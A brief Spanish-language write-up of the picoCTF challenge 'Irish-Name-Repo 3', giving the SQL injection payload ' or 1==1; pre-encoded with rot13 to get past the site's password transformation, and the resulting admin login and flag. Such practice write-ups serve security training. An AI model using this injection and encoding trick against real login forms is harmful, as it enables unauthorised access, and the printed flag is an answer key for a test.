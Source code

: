 # Nombre del reto
### Irish-Name-Repo 3
## Objetivo
```
There is a secure website running at `https://jupiter.challenges.picoctf.org/problem/40742/` ([link](https://jupiter.challenges.picoctf.org/problem/40742/)) or http://jupiter.challenges.picoctf.org:40742. Try to see if you can login as admin!

HINT: Seems like the password is encrypted.
```
## Solucion
```
password: ' or 1==1;

Al introducir la contraseña, esta se encriptara, usaremos una pagina para que haga un rot13, el resultado sera la contraseña, la cual es la siguiente: ' be 1==1;
# Logged in!

Your flag is: picoCTF{3v3n_m0r3_SQL_4424e7af}


```

## Referencias
``` shell 
https://rot13.com/
```